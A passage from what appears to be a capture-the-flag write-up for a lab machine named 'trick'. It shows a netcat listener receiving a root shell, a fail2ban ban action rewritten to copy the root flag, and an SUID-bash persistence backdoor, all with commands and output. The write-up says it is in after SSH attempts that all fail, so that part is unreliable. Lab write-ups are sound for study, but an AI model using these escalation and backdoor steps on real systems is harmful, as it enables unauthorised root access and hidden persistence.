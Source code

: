 ```console
└──╼ [★]$ ssh michael@10.129.53.72
michael@10.129.53.72's password: 
Permission denied, please try again.
michael@10.129.53.72's password: 
Permission denied, please try again.
michael@10.129.53.72's password: 
michael@10.129.53.72: Permission denied (publickey,password).
```
Awesome we are in! Quickly cat the root flag!

```
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.53.72.
Ncat: Connection from 10.129.53.72:43280.
# cat /root/root.txt
de94****************************
```
Originally I was having too many issues with a reverse shell so I opted for changing the root.txt flag to the tmp folder. Which is still a win but it doesnt feel the same without gaining root.

```console
actionban = cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt
```
```console
michael@trick:/tmp$ cat root.txt
de94****************************
michael@trick:/tmp$ 
```

Another thing we can do is as soon as you gain root access is to create persistence by moving the /usr/bin/bash to /tmp and adding a suid bit.

```console
# mv /usr/bin/bash /tmp
# cd /tmp
cd /tmp
# chmod u+s bash
```
Then as michael run bash out of /tmp

Note: the -p is required for the euid=0(root) otherwise you are just launching the shell as michael.

```
michael@trick:/tmp$ ./bash -p
bash-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
bash-5.0# 
```

Awesome we got both flags and learned a little about persistence. I also tried ssh keys as root which I am sure should work but I kept getting problems logging in. Added public keys to authorized_keys file and edited ssh_config and sshd_config in conjuction with systemctl restart ssh but None of my keys were working still. Try again another time.

GG!!
